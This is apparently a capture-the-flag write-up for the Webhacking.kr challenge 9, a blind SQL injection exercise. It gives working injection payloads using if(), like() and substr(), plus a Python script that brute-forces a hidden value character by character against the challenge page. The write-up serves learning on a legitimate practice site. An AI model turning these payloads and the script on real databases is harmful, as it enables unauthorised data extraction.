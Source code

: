 ```yaml
---
title: Webhacking.kr 9 Write-Up
description: Another SQL injection problem.
category: web
date: 1690156800000
---
```


## Important things I learnt

_SQL if statement_

`if(A, B, C)` if A is true, returns B or returns C.

_like()_ _operator_

`like()` operator is the same as `=`.

`_database()_` function

This function returns the current database’s name.

## Understanding

_1. SQL Injections Filtering_

![some text](/illustrations/webhacking.kr-9/image-1.png)

Clicking on the `3` link, I got an image like this:

![Alt text](/illustrations/webhacking.kr-9/image-2.png)

I tried some basic SQL injections but failed.

`1or1=1` , etc.

## Exploitation

I tried this SQL injection, `if(length(id)like(5),1,99)`. And it worked!

![Alt text](/illustrations/webhacking.kr-9/image-3.png)

This SQL statement does two things:

1. Finding every row with the **5**-length `id` column.
2. AND finding the value with `no=1`.

So, if I want to get `banana` on the page, I can use an SQL injection like this:

`if(length(id)like(6),2,99)`

By using this, I can get the No. 3’s length and its contents.

```python
import requests

headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) \
            AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.117'}
cookies = {'PHPSESSID':'1'}
keyword = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ'

length = -1
result = ""

for i in range(1,200):
  url = f'https://webhacking.kr/challenge/web-09/?no=if(length(id)like({i}),3,99)'
  res = requests.get(url, headers=headers, cookies=cookies)
  if "Secret" in res.text:
    length = i
    break

print("Length", length)

for i in range(1, length+1):
  for key in keyword:
    url = f'https://webhacking.kr/challenge/web-09/?no=if(substr(id,{i},1)like({hex(ord(key))}),3,99)'
    res = requests.get(url, headers=headers, cookies=cookies)
    if "Secret" in res.text:
      result += key
      break

print(result)
```
